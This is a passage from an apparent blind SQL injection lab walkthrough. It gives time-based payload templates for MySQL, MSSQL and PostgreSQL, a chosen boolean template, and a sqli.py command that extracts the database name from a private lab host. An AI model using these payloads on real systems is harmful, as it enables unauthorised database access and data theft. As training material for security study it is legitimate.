 #### Time-Based Templates (no visible difference)

| Database | Template |
| :-- | :-- |
| MySQL | `' OR IF(({condition}),SLEEP(3),0)-- -` |
| MSSQL | `' IF(({condition})) WAITFOR DELAY '0:0:3'--` |
| PostgreSQL | `' OR CASE WHEN ({condition}) THEN pg_sleep(3) ELSE 0 END--` |

### Your Selection

**Your scenario**: MySQL, single-quote string, boolean indicator

**Choose**: `' OR ({condition})-- -`

**Write down**:

```
Template = ' OR ({condition})-- -
Indicator = --true-string "Welcome"
```


***

## Step 6: Extract Database Name

### What You're Doing

Using the script to extract the current database name character-by-character.

### Prepare Your Command

Fill in values from previous steps:

```bash
python3 sqli.py \
  --url "http://192.168.45.123/products.php" \
  --method GET \
  --param id \
  --base 1 \
  --template "' OR ({condition})-- -" \
  --true-string "Welcome" \
  --action extract \
  --query "database()" \
  --maxlen 32
```


### Run It

**Execute in terminal:**

```bash
python3 sqli.py \
  --url "http://192.168.45.123/products.php" \
  --method GET \
  --param id \
  --base 1 \
  --template "' OR ({condition})-- -" \
  --true-string "Welcome" \
  --action extract \
  --query "database()" \
  --maxlen 32
```
